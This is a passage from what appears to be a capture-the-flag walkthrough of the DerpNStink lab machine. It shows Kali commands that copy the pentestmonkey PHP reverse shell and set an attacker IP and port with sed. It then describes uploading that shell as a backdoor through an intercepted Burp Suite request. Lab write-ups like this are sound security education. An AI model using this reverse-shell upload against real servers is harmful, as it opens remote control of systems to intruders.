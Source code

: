 ![](/assets/images/derpnstink/screenshot-10.png)

Then we copy the pentestmonkey reverse shell to our current directory and change the the IP address for to ours and the port.

```console
root@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
root@kali:~$ sed -i 's/127.0.0.1/192.168.179.1/;s/1234/443/' shell.php
```

First we intercept the request with burpsuite and then we click **Save Slide**, in the **filename** field we change it to the name of our backdoor and after we enter the malicious PHP code, as shown below:

![](/assets/images/derpnstink/screenshot-11.png)
